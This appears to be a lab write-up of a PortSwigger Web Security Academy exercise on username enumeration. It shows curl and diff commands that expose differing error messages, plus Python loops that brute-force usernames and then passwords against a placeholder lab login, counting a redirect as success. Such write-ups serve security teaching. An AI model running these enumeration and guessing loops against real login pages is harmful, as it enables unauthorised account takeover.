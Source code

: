 ## Identify vulnerability
export TARGET="https://<random-url>.web-security-academy.net"

To interact with a login form programmatically, we first need to identify the name attributes of the username and password input fields. These attributes tell us what parameters to send in our requests.

We can use curl to fetch the raw HTML of the login page and extract the relevant form elements:

```bash
curl -s $TARGET/login | grep -E "<form|<input"
```
Even when submitting incorrect credentials, the server might always return a 200 OK status. However, differences in the response body can still reveal whether a username is valid. To analyze these variations, we can compare responses using `curl` and `diff`.

```bash
diff <(echo "$(curl -s -X POST "$TARGET/login" -d "username=test&password=test")") \
     <(echo "$(curl -s "$TARGET/login")")
```

```
<                         <p class=is-warning>Invalid username</p>
```
This response suggests that application might give different response if we use correct username. We can automate the process with Python. Full code available [here](https://github.com/fkielpinski/PortswiggerAcademy/blob/main/username_enumeration_via_different_responses/).

```python
for username in usernames:
    data = {
        "username":f"{username}",
        "password":"test"
    }

    response = requests.post(url=url, data=data)

    if "Invalid username" in response.text:
        print("Username is invalid")
    else:
        print(f"Valid username is {username}")
```

After identifying the vulnerability (i.e., the application providing different responses for valid and invalid usernames), we can repeat the steps for password enumeration focusing on different HTTP status code. This process is similar to username enumeration, but we will now focus on the password field, attempting to find a valid password for a given valid username.

```
for password in passwords:
                data = {
                        "username": f"{username}",
                        "password": f"{password}"
                }
                response = requests.post(url=url, data=data, allow_redirects=False)
                if response.status_code == 302:
                    print(f"Redirected to {response.headers['Location']}")
                    return username, password
```

